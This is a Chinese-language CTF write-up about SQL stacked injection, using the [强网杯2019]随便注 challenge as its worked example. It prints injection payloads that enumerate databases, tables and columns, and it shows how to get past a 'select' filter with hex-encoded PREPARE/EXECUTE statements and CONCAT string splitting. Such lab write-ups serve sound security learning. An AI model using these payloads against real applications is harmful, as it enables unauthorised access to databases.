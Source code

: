 ```yaml
---
title: 随便注|blacklist => 的一些知识
id: 随便注和blacklist
---
```




## 前言

最近刷题刷到 [强网杯2019]随便注 和 [GYCTF2020]Blacklist；
加深了一点对堆叠注入的理解，也了解到一些相关waf的简单bypass
算是对之前sqli学习的一些补充吧；后续也要对mysql进行深入的学习才行（毕竟这学期也有这门课程--）

## [强网杯2019]随便注

![](https://i.loli.net/2021/03/09/753fzuyAcqHebMO.png)

```mysql
堆叠注入：
1'; show databases;#	//库名
1'; show tables;#		//表名
1'; show columns from `1919810931114514`;# 	//字段；表名为数字时，要用反引号包起来查询。
```



### 解法1

预处理

select被过滤了，所以先将

```mysql
select * from ` 1919810931114514 `
```

进行16进制编码

再通过构造payload进而得到flag

```mysql
//1:利用预处理语句会进行编码转换，将sql语句转为十六进制
-1';
SeT @a = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;	
prepare execsql from @a;			
execute execsql;			

# set：设置变量名和值
# prepare…from…：预处理语句，会进行编码转换；且prepare用于预备一个语句，并赋予名称，之后可以引用该语句
# execute：执行由SQLPrepare创建的SQL语句
# ps：SELECT 可以在一条语句里对多个变量同时赋值,而 SET 只能一次对一个变量赋值

//2：利用concat()也可以0-0
-1';
Set @a = CONCAT('se','lect * from `1919810931114514`;');
prepare execsql from @a;
execute execsql;
```
